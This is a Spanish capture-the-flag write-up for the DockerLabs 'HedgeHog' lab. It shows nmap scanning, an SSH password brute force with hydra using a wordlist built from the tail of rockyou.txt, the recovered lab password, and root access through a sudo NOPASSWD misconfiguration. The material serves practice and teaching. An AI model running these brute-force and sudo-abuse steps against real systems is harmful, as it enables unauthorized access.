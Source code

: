 ```yaml
---
title: HedgeHog
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-hedgehog/hedgehog_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - password attacks
  - sudo abuse
  - http
  - ssh
  - tcp
  - information gathering
  - web analysis
  - vulnerability exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNt2acaF9CKWqvibDqz36bJdqRXhBhBqCOAtvExAJy9Q2FullFAzNST6vJm0xFrlmpgS6fZb5+l3aTYFC18zyNU=
|   256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH2vWYkHZteiOgnLadFoN6gkctYlQYhtwGFeA7lm1OKE
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2]
```

---
## Web Analysis & Vulnerability Exploitation

Al analizar el servicio web, encuentro una página vacía que solo muestra la palabra "tails".

![](assets/img/dockerlabs-writeup-hedgehog/hedghog1.png)

En este punto, decido realizar un ataque de fuerza bruta al servicio SSH utilizando ```tails``` como nombre de usuario. 

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ sudo hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```

Sin embargo, el ataque no tiene éxito. 

> En estas plataformas de ciberseguridad educativa, generalmente existe una regla no escrita: si se debe a realizar un ataque de fuerza bruta, la contraseña suele encontrarse cerca del principio de la lista de palabras. Esto es especialmente cierto si no se proporcionan pistas para generar una lista personalizada de contraseñas.
{: .prompt-tip }

En este caso, la pista hace referencia al comando ```tail```. Usando esta información, creo una wordlist personalizada que contiene las últimas 100 palabras del archivo ```rockyou.txt```.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ tail -100 /usr/share/wordlists/rockyou.txt > tail100rockyou.txt

/home/kali/Documents/dockerlabs/hedgehog:-$ sudo hydra -l tails -P tail100rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
```

![](assets/img/dockerlabs-writeup-hedgehog/hedghog2.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/hedgehog:-$ ssh tails@127.17.0.2
tails@127.17.0.2's password: 3117548331

tails@kali:~$ whoami
tails
```

---
## Privilege Escalation

```terminal
tails@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sonic:x:1001:1001::/home/sonic:/bin/bash
tails:x:1002:1002::/home/tails:/bin/bash
```

El usuario ```tails``` tiene la capacidad de ejecutar todos los comandos como el usuario ```sonic``` sin necesidad de contraseña.

```terminal
tails@kali:~$ sudo -l
User tails may run the following commands on kali:
    (sonic) NOPASSWD: ALL
```

Puedo obtener acceso a ```root``` ejecutando ```sudo su``` bajo el contexto de ```sonic```.

```terminal
tails@kali:~$ sudo -u sonic sudo su 

root@kali:/home/tails# id
uid=0(root) gid=0(root) groups=0(root)
```
